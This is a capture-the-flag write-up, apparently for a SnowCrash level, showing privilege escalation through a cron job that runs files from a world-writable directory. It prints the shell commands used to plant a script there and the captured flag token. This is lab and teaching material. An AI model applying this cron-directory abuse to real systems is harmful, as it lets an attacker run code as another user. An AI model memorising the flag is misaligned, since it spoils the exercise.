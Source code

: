 1. Nothing is found first, and we try to find any clue. Let's check list of environmental variables:
``` Bash
/usr/bin/env
```
2. There is interesting line here: `MAIL=/var/mail/level05`. This file contains
``` Bash
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
3. `*/2 * * * *` looks like format of [`crontab` utility](https://www.tutorialspoint.com/unix_commands/crontab.htm) for timed launch of programs. According to line above, shell script /usr/sbin/openarenaserver lauches every 2 minutes
4. Script `/usr/sbin/openarenaserver` contains
``` Bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
5. Script grabs all files from `/opt/openarenaserver/`, executes them and deletes afterwards
6. Let's create file `/opt/openarenaserver/flag05`, that will execute getflag when launched and write output to temporal file, and chane file permissions
``` Bash
echo "getflag > /tmp/flag05" > /opt/openarenaserver/flag05
chmod 777 /opt/openarenaserver/flag05
```
7. Now wait for around 2 minutes. Than reveal in file /tmp/flag05 flag for level06 user: **viuaaale9huek52boumoomioc**
